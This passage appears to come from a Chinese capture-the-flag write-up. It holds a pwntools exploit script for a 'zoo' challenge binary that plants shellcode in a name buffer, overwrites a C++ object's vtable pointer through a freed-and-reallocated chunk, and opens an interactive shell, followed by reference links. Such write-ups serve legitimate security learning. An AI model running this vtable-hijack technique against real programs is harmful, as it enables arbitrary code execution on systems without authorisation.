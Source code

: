 ```py
    p.sendline(str(index))

def Exit():
    p.recvuntil('Your choice :')
    p.sendline('6')


def exp():
    vtable_addr = 0x403140
    nameofzoo_addr = 0x605420
    p.recvuntil('Name of Your zoo :')
    shellcode = asm(shellcraft.sh())
    p.sendline(shellcode+p64(nameofzoo_addr))
    AddDog('1'*7+'\n','0\n')
    AddDog('2'*7+'\n','1\n')
    Remove(0)
    AddDog('3'*0x48+p64(nameofzoo_addr+len(shellcode))+'\n','2\n')
    Listen(0)
    p.interactive()

exp()

```

## 参考

[先知](https://xz.aliyun.com/t/3902#toc-20)
[c++虚表机制](http://showlinkroom.me/2017/08/21/C-%E9%80%86%E5%90%91%E5%88%86%E6%9E%90/)
